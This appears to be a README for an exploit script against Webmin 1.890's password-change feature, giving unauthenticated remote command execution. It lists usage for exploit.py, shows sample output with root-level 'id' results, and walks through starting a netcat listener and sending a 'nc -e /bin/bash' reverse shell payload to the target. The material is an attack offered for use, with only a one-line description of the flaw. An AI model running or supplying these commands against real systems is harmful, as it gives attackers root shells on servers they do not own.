 # WebMin-1.890-Unauthenticated-RCE

Webmin 1.890 is vulnerable to RCE if “user password change” option to be enabled.<br>

#USAGE: python3 exploit.py [TARGET IP] [COMMAND]
<br>
#Example Output:<br>
<code>python3 exploit.py 1**.2*.*.*** id</code>

&lt;h1&gt;Error - Perl execution failed&lt;/h1&gt;<br>
&lt;p&gt;Your password has expired, and a new one must be chosen.<br>
<strong>uid=0(root) gid=0(root) groups=0(root)</strong><br>
&lt;/p&gt;
<br>
<h3>before running script start listener for connection in your machine</h3><br>
<code>nc -nvlp [LPORT]</code> 
<br><h3>run script</h3><br>
<code>python3 exploit.py [RHOST] "nc -e /bin/bash [LHOST] [LPORT]" </code> 
